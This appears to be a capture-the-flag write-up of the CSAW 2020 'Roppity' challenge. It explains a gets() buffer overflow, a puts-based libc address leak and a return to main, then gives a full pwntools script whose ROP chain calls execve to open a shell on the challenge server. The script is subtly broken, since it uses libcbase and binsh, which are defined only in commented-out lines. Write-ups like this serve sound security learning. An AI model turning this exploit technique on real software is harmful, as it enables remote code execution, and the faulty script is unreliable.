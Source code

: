 ```yaml
---
title: Roppity
date: "2020-09-16 22:04:31.582772"
description: "First ROP challenge from CSAW ctf 2020"
categories: ["code"]
---
```


Here's the simple ROP challenge from the CSAW 2020 qualifiers.  
To start off, when we enter some input we find that the program readily segfaults.

![Segfaults easily lol](../../assets/segfaulted.png)

Then using a disassembler (here I am using binaryninja, but you can use any one you like), we find out that we're inputting into a buffer of size `0x20` using the `gets()` call.  
Since `rbp` is first to be pushed onto the stack, and the buffer size being offset from `rbp`, the total padding required is:

0x20 + 8 bytes for rbp = **40 bytes**

Since there is no win function, next thing we need is a way to pop the shell. There don't seem to be enough rop gadgets to pop a shell, and with the NX functionality enabled, it doesn't seem like we can use any shellcode.

![PIE disabled, NX enabled](../../assets/checksec.png)

In that case, the only thing to do is leak a libc address using the classic `puts(puts)` idea. We print out the address of puts in the GOT which should contain the address of puts in libc, by jumping to `puts@plt`.  
**Note:** We don't need to leak a code address since there is no PIE

Once we have the leak, since we know the libc version, the next problem is to run the gets call again, so that we can send in the the rop chain we generate from the libc.
To do this, we jump back to the main function, get it to repair the currently destroyed stack, and then enter in our ropchain.

The whole script is as follows.

```python
#!/usr/bin/env python3

from pwn import *

PROGNAME = "./rop"
REMOTEIP = "pwn.chal.csaw.io"
REMOTEPORT = "5016"

if args.REMOTE:
        p = remote(REMOTEIP, REMOTEPORT)
        elf = ELF(PROGNAME)
        libcelf = ELF('./libc-2.27.so')
else:
        p = process(PROGNAME)
        elf = p.elf
        libcelf = ELF('<system libc path>')
        gdb.attach(p)

# Requires 40 bytes of padding
padding = b'a' * 40

# puts address in the binary
# puts@plt
puts = 0x004004a0

# puts@got
putsGot = 0x601018

# pop rdi gadget for all the rop
popRdi = 0x0000000000400683

# Return to the main function to repair the
# destroyed stack
main = 0x004005dc

# run puts@plt with puts@got in rdi to leak a libc address
p.sendline(padding + p64(popRdi) + p64(putsGot) + p64(puts) + p64(main))

# stripping the newline
leak = p.readline()[:-1]

# the leak is only 6 bytes, with address being of the form: 0x0000<address>
libc = u64(leak + b'\x00' * 2)

# sadly the system('/bin/sh') doesn't work, possibly has been disabled
# libcbase = libc - libcelf.symbols['puts']
# libcsys = libcbase + libcelf.symbols['system']
# binsh = libcbase + next(libcelf.search(b'/bin/sh'))
# systemPayload = padding + p64(popRdi) + p64(binsh) + p64(libcsys)

# The rop chain magic
syscall = p64(libcbase + 0x00000000000d29d5)
popRsi = p64(libcbase + 0x0000000000023e8a) + p64(0)
popRdx = p64(libcbase + 0x0000000000001b96) + p64(0)
popRax = p64(libcbase + 0x0000000000043a78) + p64(59)
setBinsh = p64(popRdi) + p64(binsh)

# execve syscall
# rax: 59
# rdi: pointer to '/bin/sh\x00'
# rsi: 0
# rdx: 0
p.sendline(padding + popRsi + popRdx + popRax + setBinsh + syscall)
```
